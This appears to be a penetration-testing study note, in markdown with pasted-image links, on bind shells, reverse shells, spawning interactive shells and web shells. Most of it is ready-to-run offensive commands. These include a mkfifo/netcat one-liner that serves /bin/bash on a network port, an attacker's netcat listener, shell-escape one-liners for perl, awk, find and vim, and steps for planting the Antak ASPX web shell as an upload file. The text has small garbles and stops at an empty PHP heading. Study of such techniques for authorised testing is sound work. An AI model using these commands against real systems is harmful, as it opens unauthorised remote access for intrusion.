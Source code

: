 https://www.revshells.com/
# Bind Shell
![[Pasted image 20230731115803.png]]
Target system has a listener and awaits a connection from the attacker.
### Bind Shell with NC 
```shell
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 1234 > /tmp/f
```
```shell
nc -nv <ip> <port>
```

# Reverse Shell
Attacker 
```shell
sudo nc -lvnp 443
```
# Interactive Shells
```shell
/bin/sh -i
```
### Perl
```shell
perl —e 'exec "/bin/sh";'
```
Run from script:
```shell
perl: exec "/bin/sh";
```
### Ruby 
```shell
ruby: exec "/bin/sh"
```
### Lua
```shell
lua: os.execute('/bin/sh')
```
### AWK
```shell
awk 'BEGIN {system("/bin/sh")}'
```
### Find
```shell
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
```

```shell
find . -exec /bin/sh \; -quit
```
### Vim
```shell
vim -c ':!/bin/sh'
```

```vim
vim
:set shell=/bin/sh
:shell
```

# Web Shells
#### [Laudanum](https://github.com/jbarcia/Web-Shells/tree/master/laudanum)
	Ready made files that can be injected 
#### Antak
###### ASPX = Active Server Page Extended (ASPX) 
Built on ASP.NET framework.
Web form pages generated for users to input dat
##### Antak web shell
Web shell built in ASP.NET that gives powershell commands


```shell
ls /usr/share/nishang/Antak-WebShell
```

```shell
 cp /usr/share/nishang/Antak-WebShell/antak.aspx /home/administrator/Upload.aspx
```
Change username and password?

#### PHP
